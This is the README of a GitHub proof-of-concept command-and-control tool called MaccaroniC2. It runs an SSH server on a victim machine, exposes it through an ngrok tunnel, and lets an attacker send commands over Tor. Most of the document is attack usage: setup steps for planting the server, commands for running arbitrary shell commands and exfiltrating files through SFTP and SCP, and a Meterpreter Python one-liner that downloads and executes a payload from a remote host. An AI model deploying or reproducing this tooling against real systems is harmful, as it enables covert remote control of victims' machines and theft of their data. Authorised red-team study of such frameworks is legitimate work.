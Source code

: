 # MaccaroniC2 - Empowering Command & Control using AsyncSSH

![](https://github.com/CalfCrusher/MaccaroniC2/blob/main/maccaroni.jpg)

**MaccaroniC2** is a *proof-of-concept* **Command and Control framework** that utilizes the powerful `AsyncSSH` Python library which provides an asynchronous client and server implementation of the SSHv2 protocol and use `PyNgrok` wrapper for `ngrok` integration. This tool is inspired for a specific scenario where the victim runs the AsyncSSH server and establishes a tunnel to the outside, ready to receive commands by the attacker.

The attacker leverages the `Ngrok official API` to retrieve the hostname and port of the tunnel to establish a connection. This approach takes advantage of the comprehensive capabilities provided by **AsyncSSH**, including its integrated support for `SFTP` and `SCP`, facilitating secure and efficient file exfiltration and more.

Moreover, the attacker can send and execute system commands using a SOCKS proxy, leveraging the benefits offered, for example, using `TOR` to enhance anonymity.

* *Ngrok free account only allows the usage of one tunnel at a time. With some changes this tool could be perfect for a BOT-like C&C framework to control multiple SSH instances, but you would need to upgrade your plan on the Ngrok website, see https://ngrok.com/pricing*
   
## Setup and Procedure

1) Run `python3 gen_rsa.py` to generate a pair of SSH keys. The newly generated `id_rsa` is used by the attacker to connect to the server running on the victim's machine.

2) Edit the `asyncssh_server.py` file and place the contents of the newly generated `id_rsa.pub` inside the `pub_key` variable. The `asyncssh_server.py` file acts as an SSH server with SFTP and SCP enabled, which will be run by the victim.

3) Create a free account on Ngrok site and take note of the `AUTH` Token.
  
4) Add the `AUTH` token to the `token` variable in `asyncssh_server.py`, this needs to be harcoded inside the `ngrok_tunnel()` function.
  
5) Create a free `API` key on the Ngrok website. Take note of the generated string.

6) Put the `API` key string in the `api_key` variable inside the `async_commander.py` file. This allows us to automatically retrieve the Ngrok domain and port of the active tunnel during automation.

7) Perform the same step for `get_endpoints.py` file. This script retrieves various useful information about active tunnels.

## Send commands to server  

With `async_commander.py` you can send any command to the server. It *automatically* requests the Ngrok tunnel's domain and port activated by the victim using Ngrok official API.
  
Please note also that the `id_rsa` needs to be in the same folder of `async_commander.py`

## Basic Usage

Run server on victim machine:

`python3 asyncssh_server.py`

___

From the attacker machine send command using socks proxy:  
  
`python3 asyncssh_commander.py "ls -la" --proxy socks5h://127.0.0.1:9050`
 
___
  
Send command without using a proxy:

`python3 asyncssh_commander.py "whoami"`
  
___
  
Spawn another C2 agent (Powershell-Empire, Meterpreter, etc):

`python3 asyncssh_commander.py "powershell.exe -e ABJe...dhYte"`

Meterpreter Python Payload

`python3 asyncssh_commander.py "python3 -c \"import sys; import ssl; u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]], fromlist=('urlopen',)); r=u.urlopen('http://100.100.100.100:8080/YnrVekAsVF', context=ssl._create_unverified_context()); exec(r.read());\""` 

___    
  
Get list of active tunnels:
  
`python3 get_endpoints.py`
  
___
  
Generate new RSA key pairs:
  
`python3 gen_rsa.py`
  
## Advanced Usage
 
Using `SFTP` and `SCP` - you don't need a valid username just the correct `id_rsa`

- With proxy:
  
`proxychains sftp -P NGROK_PORT -i id_rsa ddddd@NGROK_HOST`
  
`scp -i id_rsa -o ProxyCommand="nc -x localhost:9050 %h NGROK_PORT" source_file ddddd@NGROK_HOST:destination_path`
  
___  
  
- No proxy:
  
`sftp -P 18499 -i id_rsa ddddd@0.tcp.ngrok.io`
  
`scp -i id_rsa -P 18499 source_file ddddd@0.tcp.ngrok.io:destination_path`
  
___

**DISCLAIMER: This tool is intended for testing and educational purposes only. It should only be used on systems with proper authorization. Any unauthorized or illegal use of this tool is strictly prohibited. The creator of this tool holds no responsibility for any misuse or damage caused by its usage. Please ensure compliance with applicable laws and regulations while utilizing this tool**
  
